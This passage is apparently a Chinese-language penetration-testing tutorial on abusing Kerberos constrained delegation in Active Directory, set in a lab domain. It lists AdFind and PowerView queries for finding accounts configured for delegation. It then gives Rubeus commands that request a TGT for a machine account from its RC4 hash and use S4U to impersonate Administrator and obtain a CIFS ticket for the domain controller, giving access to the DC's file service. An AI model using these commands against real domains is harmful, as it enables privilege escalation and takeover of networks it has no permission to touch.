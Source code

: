 通过Adfind.exe查询域中配置约束委派的账户

    
    
    # 查询域中配置约束委派的机器账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto  
    # 查询域中配置约束委派的服务账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto  
    

![]()

PowerView查询

    
    
    # 查询约束委派机器账户  
    Get-DomainComputer -TrustedToAuth -Domain ccc1.test  
    # 查询约束委派服务账户  
    Get-DomainUser -TrustedToAuth -Domain ccc1.test  
    

### 约束委派利用

约束委派利用的前提是需要知道委派用户的明文密码或者hash 通过rebeus.exe来申请WIN7-PC机器用户的TGT

    
    
    rubeus.exe asktgt /user:WIN7-PC$ /rc4:9ae90aab9fb85d3cd6c6dc3b291d865a /domain:ccc1.test /dc:dc.ccc1.test /nowrap  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221123153823.png)

使用s4uself扩展来请求DC的cifs的票据并将票据导入到内存中

    
    
    Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/dc.ccc1.test /dc:dc.ccc1.test /ptt /ticket:<ticket>  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221123153824.png)

image.png

可直接访问dc的cifs服务

![](https://gitee.com/fuli009/images/raw/master/public/20221123153825.png)

## 参考
